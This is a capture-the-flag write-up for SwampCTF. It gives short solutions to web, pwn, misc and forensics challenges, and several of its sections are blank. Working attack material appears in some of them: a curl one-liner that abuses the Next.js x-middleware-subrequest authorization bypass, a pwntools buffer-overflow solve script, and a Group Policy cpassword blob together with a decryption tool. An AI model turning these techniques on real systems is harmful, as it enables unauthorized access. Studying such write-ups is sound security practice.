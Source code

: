 * * *
### CTF: **SwampCTF**
* * *

![image](https://github.com/user-attachments/assets/e85ba37f-462c-4762-9886-468bf675e5ea)


--------------------------------

### Challenges

- Web:
  - Serialies
  - SlowAPI 

- Pwn:
  - Beginner Pwn 1
  - Beginner Pwn 2

- Misc:
  - Lost In Translation 
    
- Forensics:
  - Preferential Treatment

- Osint:
  - Party Time! 
  - Party Time! Level 2 

- Crypto:
  - Rock my Password 
  - Intercepted communications
  
--------------------------------
   
### Web:

### Challenge: Serialies
![image](https://github.com/user-attachments/assets/64b27c27-c8b1-4d4a-8e72-2859105706a7)

After I Download the file ```serialies.zip```
In the PersonController.java file, we find the /api/person endpoint. Navigating there gives us the flag.

![image](https://github.com/user-attachments/assets/9bf8ffdd-7fa3-44e9-80a8-df9f40389e33)
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}

--------------------------------


### Challenge: SlowAPI 
![image](https://github.com/user-attachments/assets/7639e47e-e6fb-4373-9cc0-c5fc4bfc6e2d)

- IT The RECENT NEXT.JS VULNERABILITY!!!!
- ```curl -H "x-middleware-subrequest: middleware" http://chals.swampctf.com:43611/api/protected/flag```
      
--------------------------------


### PWN:

### Challenge: Beginner Pwn 1
![image](https://github.com/user-attachments/assets/708c2055-022e-4c34-a702-e39f67354b5a)

- Solve script
```python
from pwn import *

# Set up connection to the challenge server
HOST = "chals.swampctf.com"
PORT = 40004

# Buffer overflow payload
payload = b"A" * 10 + b"\x01\x00\x00\x00"  # Overwrite is_admin to 1 (true)

# Start interaction
p = remote(HOST, PORT)
p.recvuntil(b"please enter your name: ")
p.sendline(payload)

# Read output to check if admin
print(p.recv().decode())

# Send "y" to print flag
p.sendline(b"y")

# Receive and print flag
print(p.recvall().decode())

# Close connection
p.close()


### Challenge: Beginner Pwn 2
![image](https://github.com/user-attachments/assets/cc125998-d69a-423d-b5e8-3bdd7eebf32e)

- Solve Script


--------------------------------

### MISC

### Challenge: Lost In Translation

![image](https://github.com/user-attachments/assets/32e32d6b-eee6-4494-8e1c-b35f7c53510a)

After i unzip the file, there is challenge.js and i Copy and paste the challenge.js to this whitespace "https://www.dcode.fr/whitespace-language"</a>




  
--------------------------------

### FORENSICS:

### Challenge: Preferential Treatment:
![image](https://github.com/user-attachments/assets/84ac06e1-0957-45a5-ab7b-3c04a9dbc6b6)

when checking the pcap following the tcp you can see the following:
"<Groups clsid="{3125E937-EC16-4b4c-9934-544FC6D24D26}">
    <User clsid="{DF5F1855-52E5-4d24-8B1A-D9BDE98BA1D1}" name="swampctf.com\Administrator" image="2"
          changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
        <Properties action="U" newName="" fullName="" description=""
                    cpassword="dAw7VQvfj9rs53A8t4PudTVf85Ca5cmC1Xjx6TpI/cS8WD4D8DXbKiWIZslihdJw3Rf+ijboX7FgLW7pF0K6x7dfhQ8gxLq34ENGjN8eTOI="
                    changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="swampctf.com\Administrator"/>
    </User>
</Groups>"
then I looked up what that was and realized it was a weakly encrypted password
so I found a repo to decrypt it.
"https://github.com/t0thkr1s/gpp-decrypt"



--------------------------------


### OSINT      

### Challenge: Party Time! 
![image](https://github.com/user-attachments/assets/f3f16896-d45f-461a-9c41-b047cb34c697)



### Challenge: Party Time! Level 2
![image](https://github.com/user-attachments/assets/dcd2698c-1dd1-479b-b215-517fa5dec4f3)



--------------------------------

### CRYPTO:

### Challenge: Rock my Password 
![image](https://github.com/user-attachments/assets/bba615e3-4145-4d6d-9129-5a296d8598ba)


### Challenge: Intercepted communications
![image](https://github.com/user-attachments/assets/b84f48ac-de68-4af6-b0cd-dc8dd0cdf699)





--------------------------------

Thanks for reading!!!!!

* * *

